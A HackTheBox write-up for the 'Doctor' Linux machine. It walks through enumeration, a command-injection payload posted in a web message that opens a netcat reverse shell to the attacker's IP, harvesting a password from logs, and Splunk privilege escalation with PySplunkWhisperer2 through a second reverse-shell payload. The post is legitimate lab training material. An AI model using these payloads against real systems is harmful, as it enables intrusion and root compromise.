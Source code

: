 ```yaml
---
layout: post
title: "Doctor"
date: 2022-03-14
categories: [HackTheBox, Easy-HTB]
tags: [reverse-shell, Password-Backup, SplunkWhisperer2, Python3]
image: ../../assets/img/posts/Doctor.png

---
```


|**Machine**|[Doctor](https://app.hackthebox.com/machines/278)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[egotisticalSW](https://app.hackthebox.com/users/94858)|

---

We'll start with connecting to HTB network by making connection with .ovpn file and then spin up machine. This box's IP is **10.10.10.209**.

Let's get started with nmap scan,

```bash
sudo nmap -T4 -A -p- 10.10.10.209 -oN nmap_scan
```

![image](https://user-images.githubusercontent.com/67465230/158133879-8b3a7faf-e14a-43a6-b6bf-fb2a06ba5cff.png)

nmap result tell us that there are 3 ports 22(SSH), 80(HTTP), 8089(Splunk httpd) are open.

let's check what technologies are running on website using whatweb tool,

```bash
whatweb http://10.10.10.209
```

![image](https://user-images.githubusercontent.com/67465230/158133897-15b772ad-5977-4967-a621-34214fbbd47c.png)

let's visit http://10.10.10.209,

![image](https://user-images.githubusercontent.com/67465230/158133910-2e753a85-966f-4809-a851-169618dc33f0.png)

we land on website's main page.

Let's bruteforce the directories using gobuster,

```bash
gobuster dir -u http://10.10.10.209 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x txt,php 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/158133921-c077b358-d8af-45b6-9433-50ded24be716.png)

after enumeration from gobuster result there's not much we got. So now to find the login page(which is hidden in this machine), we have to do some important steps.

In order to find the login page, we've to **add resolved domain address with its site's extension** instead of its **ip address** and to do this open terminal add type 

```bash
sudo nano /etc/hosts
```

![image](https://user-images.githubusercontent.com/67465230/158133927-01eaf923-07cd-4661-a4db-044316c2be9e.png)

now when we search for doctors.htb, a website signup page will get open.

![image](https://user-images.githubusercontent.com/67465230/158133933-26821a68-58fb-4c8a-9f88-c3901e365c7f.png)

now first sign-up using fake info and then login to website for further process

![image](https://user-images.githubusercontent.com/67465230/158133949-4da41a24-6136-44f2-a3b7-375be35677b6.png)

(remember this account will be active for 20min, so you have to make a new fake account, which is easy XD)

using wappalyzer, we can see that this machine runs python programming language,

![image](https://user-images.githubusercontent.com/67465230/158133962-939a2261-3e63-4c5c-b846-16692256d5af.png)

now here we can see the home page of the website and there is a new message tab. Click on new message tab.

![image](https://user-images.githubusercontent.com/67465230/158133973-a100faa1-18d2-499a-a3eb-8be978ef9674.png)

now go to terminal and start netcat listener using `nc -nvlp 4444`

now type the following: 

```bash
<img src="http://10.10.14.19/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.14.19'$IFS'4444')">
```

![image](https://user-images.githubusercontent.com/67465230/158133982-e2cb6fc5-b154-4cf7-b442-c46751bfc7f0.png)

now post this message and we'll get a reverse connection on netcat listener

here we got a connection

![image](https://user-images.githubusercontent.com/67465230/158133993-d8d37012-c8de-43f5-888d-3759b3dbc6f8.png)

Let's improve our shell's functionality,

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")';
```

![image](https://user-images.githubusercontent.com/67465230/158134001-898642bf-2f1b-486a-a302-b91f063584c1.png)

now by default permissions are denied for anyone to access any files in system

![image](https://user-images.githubusercontent.com/67465230/158134006-d87a7b27-d97c-4a29-bea6-a4cb18f5ebf6.png)

so we now we need to find users(shaun, in this case) passwd and here is the location to find user's passwd

![image](https://user-images.githubusercontent.com/67465230/158134018-3cb3e1de-d3c5-40df-a59e-62493a9746d5.png)

but the output of backup is useless except email and password which can be find using this command

```bash
grep -r password?email
```

![image](https://user-images.githubusercontent.com/67465230/158134023-330af67e-a3cb-4204-b536-157062a7e10f.png)

it'll narrow result to email and passwd for us.

switching to shaun user,

```bash
su shaun
```

![image](https://user-images.githubusercontent.com/67465230/158134037-8d53817d-48f7-42bc-9955-cca0395432bb.png)

and now look for user.txt file in this directory

![image](https://user-images.githubusercontent.com/67465230/158134048-1738fb3f-2d62-42fd-b0b8-b13605a06884.png)

here's the user flag.

now we'll we know that root access is denied, so in order to find root access we'll do privilege escalation on splunkd(see nmap) 

now first clone SplunkWhisperer in your doctor's directory,

```bash
git clone https://github.com/cnotin/SplunkWhisperer2
```

![image](https://user-images.githubusercontent.com/67465230/158134058-67ae4c4e-fa00-4cf1-9c2d-27173d7d4711.png)

then follow these steps,

```bash
cd SplunkWhisperer2
cd PySplunkWhisperer2
pip install -r requirements.txt
```

![image](https://user-images.githubusercontent.com/67465230/158134072-6f80c34b-cc3c-4918-ade0-e83747ce3a01.png)

and also change the permissions of python file,

```bash
chmod +x PySplunkWhisperer2 remote.py
```

![image](https://user-images.githubusercontent.com/67465230/158134076-48a125fe-76b2-4c93-a00d-20c6637c009e.png)

let's start netcat listener using `nc -nvlp 1234` and let's enter root user in our own kali machine to execute splunk payload for privilege escalation,

```bash
python3 PySplunkWhisperer2 remote.py --host 10.10.10.209 --lhost 10.10.14.192 --username shaun --password <password> --payload 'nc.traditional -e/bin/sh '10.10.14.192' '1234''
```

![image](https://user-images.githubusercontent.com/67465230/158134086-d8c254ff-def8-4f6d-9f1a-3a6c219c8a0a.png)

now we'll get a reverse connection with all the access permissions we want and now look for root flag

![image](https://user-images.githubusercontent.com/67465230/158134104-7351e3bc-4154-4f30-9eab-ff2162f3a7ae.png)

We got the root access and root flag as well.